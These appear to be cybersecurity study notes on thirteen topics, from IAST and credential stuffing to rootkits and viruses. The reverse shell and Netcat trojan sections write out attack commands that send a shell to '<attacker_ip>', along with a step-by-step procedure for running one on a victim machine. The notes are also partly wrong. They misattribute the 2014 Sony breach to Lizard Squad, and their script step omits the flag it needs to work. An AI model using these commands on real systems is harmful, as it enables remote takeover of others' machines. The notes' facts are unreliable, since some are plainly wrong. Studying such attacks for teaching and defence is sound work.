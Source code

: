 ### 1. **IAST (Interactive Application Security Testing) in regard to SAST and DAST**

**IAST** is a hybrid approach combining elements of both **SAST (Static Application Security Testing)** and **DAST (Dynamic Application Security Testing)**.

- **SAST** analyzes the source code or binaries of an application to identify vulnerabilities without executing the application, often used during development.
- **DAST** tests the application in a running state (black-box testing), identifying issues such as SQL injection, cross-site scripting, and other runtime vulnerabilities.

**IAST** integrates into the testing environment to analyze the application during runtime (like DAST) but uses source code analysis (like SAST) for deeper insights. It provides real-time feedback to developers while the application is being tested, offering a more comprehensive vulnerability detection method.

---

### 2. **Credential Stuffing**

**Credential stuffing** is a type of cyberattack where attackers use previously stolen username and password pairs (often from data breaches) to gain unauthorized access to user accounts on different websites or services.

- This attack works under the assumption that many users reuse passwords across multiple sites.
- **Preventive Measures**: Implementing multi-factor authentication (MFA), rate limiting, and CAPTCHA can help prevent these attacks.

---

### 3. **Sony Cyber Attack 2014**

The **Sony Cyber Attack (2014)**, attributed to the **Lizard Squad** hacking group, caused significant disruption:

- Hackers breached Sony’s servers, stole sensitive data, and leaked movies and private emails.
- They also disrupted services like PlayStation Network and Sony Entertainment.
- **Torrents**: Movies that were supposed to be released in theaters were leaked online due to the breach.
- The incident highlighted poor security practices, including storing sensitive information like usernames and passwords in **plain text**, which made the breach much easier for attackers to exploit.

---

### 4. **Evil Twin Attack**

An **Evil Twin Attack** is a type of **Wi-Fi spoofing** attack where a rogue Wi-Fi access point (AP) is set up to mimic a legitimate Wi-Fi network.

- Attackers create a fake AP with the same SSID (network name) as a trusted one. Users unknowingly connect to this fake AP, allowing attackers to intercept sensitive data.
- This attack can be used for **man-in-the-middle (MITM)** attacks to steal data, inject malware, or monitor communications.

---

### 5. **`sudo apt install adb` Steps**

To install **Android Debug Bridge (ADB)** on an Ubuntu-based system:

1. Open the terminal.
2. Update your package list:
    
    ```bash
    sudo apt update
    ```
    
3. Install ADB by running:
    
    ```bash
    sudo apt install adb
    ```
    
4. Once installed, you can check the installation by typing:
    
    ```bash
    adb version
    ```
    
5. To use ADB, ensure **USB debugging** is enabled on your Android device and connect it via USB.
6. You can then use various ADB commands like:
    
    ```bash
    adb devices
    adb shell
    adb push <local file> <remote path>
    ```
    

---

### 6. **Reverse Shell (Android, Windows, Linux)**

A **reverse shell** is a type of shell in which the target machine opens a connection to an attacking machine, allowing the attacker to run commands on the target.

- **Android Reverse Shell:** Using `adb` and a reverse shell payload can give the attacker control over an Android device.
- **Windows Reverse Shell:** A command like `nc -e cmd.exe <attacker_ip> <port>` can create a reverse shell on a Windows machine.
- **Linux Reverse Shell:** Using `nc -e /bin/bash <attacker_ip> <port>` on a Linux machine allows an attacker to control it remotely.

---

### 7. **Netcat Trojan**

A **Netcat Trojan** is a malicious program using **Netcat** for creating a reverse shell or establishing backdoor communication channels.

- **Prerequisites:**
    - Install **Netcat** (`sudo apt install netcat`).
    - Ensure **firewalls** allow the relevant ports.
- **Netcat Command**:
    - On the attacker's machine, listen on a specific port:
        
        ```bash
        sudo nc -lvp 5000
        ```
        
    - On the victim's machine, initiate the reverse shell:
        
        ```bash
        sudo nc -e /bin/bash <attacker_ip> 5000
        ```
        

**Remaining Steps after `chmod u+x myfile.sh`:**

1. Create a script file (`myfile.sh`), add the reverse shell Netcat command to it:
    
    ```bash
    netcat <attacker_ip> 5000
    ```
    
2. Set it to be executable:
    
    ```bash
    chmod u+x myfile.sh
    ```
    
3. Run the script on the victim machine:
    
    ```bash
    ./myfile.sh
    ```
    
4. The attacker should now have a reverse shell connection.

---

### 8. **Process Explorer Tool**

**Process Explorer** is a tool from Sysinternals used to monitor the processes running on a Windows machine.

- It shows detailed information about processes, threads, and handles.
- **Key Features:**
    - Displays which processes are using specific files or libraries.
    - Allows identifying malicious processes by highlighting suspicious activity.

---

### 9. **IPv4 Header**

The **IPv4 header** is part of every IPv4 packet, containing essential routing and delivery information.

- Key fields include:
    - **Version**: Protocol version (4 for IPv4).
    - **IHL**: Internet Header Length (length of the header in 32-bit words).
    - **Total Length**: Entire packet length (header + data).
    - **Protocol**: Protocol used in the payload (TCP, UDP, etc.).
    - **Source Address** and **Destination Address**: IP addresses of the sender and receiver.

---

### 10. **HTTP Tunneling**

**HTTP Tunneling** involves encapsulating other protocols within HTTP to bypass firewalls or network restrictions.

- Can be used to tunnel **TCP** traffic over **HTTP**.
- **Overt Channels**: Open, observable communication (e.g., HTTP itself).
- **Covert Channels**: Hidden, less detectable communication.

---

### 11. **Trojans and RATs**

- **Trojan**: Malicious software disguised as legitimate software to gain unauthorized access.
- **Remote Access Trojans (RATs)**: Provide the attacker with control over the victim's machine, allowing for spying, file access, and more.

---

### 12. **Rootkit Techniques**

**Rootkits** are designed to hide the presence of malicious software or processes from detection.

- Common methods include manipulating system calls, hiding files, and disguising processes.
- Rootkits can give attackers persistent control over a system.

---

### 13. **Virus and Spread Mechanism**

- **Virus**: Malicious code that replicates by attaching itself to other files or programs.
- **Spread Mechanism**: Typically spreads via email, file sharing, or infected software downloads.
- **Examples**:
    - **Conficker**: A self-replicating worm targeting Windows systems.
    - **Blaster**: A worm that exploited vulnerabilities in Windows.
    - **ILOVEYOU**: A virus spread via email attachment.

---
